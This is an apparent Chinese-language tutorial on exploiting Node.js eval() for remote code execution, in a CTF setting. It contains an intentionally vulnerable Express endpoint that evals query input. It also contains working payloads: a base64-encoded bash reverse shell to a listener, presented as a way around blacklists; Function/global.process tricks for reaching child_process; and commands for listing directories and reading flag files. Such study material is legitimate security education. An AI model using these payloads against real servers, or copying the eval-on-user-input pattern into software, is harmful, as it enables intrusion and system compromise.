 eval()函数执行其中的js代码，和PHP的eval函数一样

```javascript
const express = require("express");
const app = express();

app.get('/', function(req,res){
	res.end('Try to RCE');
})

app.get('/evil', function(req, res){
	res.send(eval(req.query.q));
	console.log(req.query.q);
})


const server = app.listen(8888, function(){
	console.log("Server Starts http://127.0.0.1:8888/")
})
```

Node.js中的child_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令。

> 弹计算器 q=require('child_process').exec('calc');
>
> 反弹shell q=require('child_process').exec('echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjcuMC4wLjEvMzMzMyAwPiYx|base64 -d|bash');   // base64编码绕过黑名单
>
> // bash -i >& /dev/tcp/127.0.0.1/3333 0>&1
>
> 注意：BASE64加密后的字符中有一个+号需要url编码为%2B(URL传参时)

对于Function来说上下文并不存在require，需要从global中一路调出来exec。若上下文没有require，可以使用`Function("global.process.mainModule.constructor._load('child_process').exec('calc')")();`
或`Function("global.process.mainModule.require('child_process').exec('calc')")();`

![image-20221224225516768](./.gitbook/assets/image-20221224225516768.png)

其他函数：

间隔两秒执行函数：

- setInteval(some_function, 2000)

两秒后执行函数：

- setTimeout(some_function, 2000);



```javascript
> ?eval=require('child_process').execSync('ls');
> ?eval=require('child_process').execSync('ls').toString();
> ?eval=require('child_process').spawnSync('ls').output;
> ?eval=require('child_process').spawnSync('ls').stdout;
>
> ?eval=require('child_process').execSync('cat fl00g.txt');
> ?eval=require('child_process').spawnSync('cat',['fl00g.txt']).output;

> 读文件
> ?eval=require('fs').readdirSync('.');
> ?eval=require('fs').readFileSync('fl00g.txt');
```

有时候在命令执行中使用全局变量去探测可能会有奇效
`__dirname`、`__filename`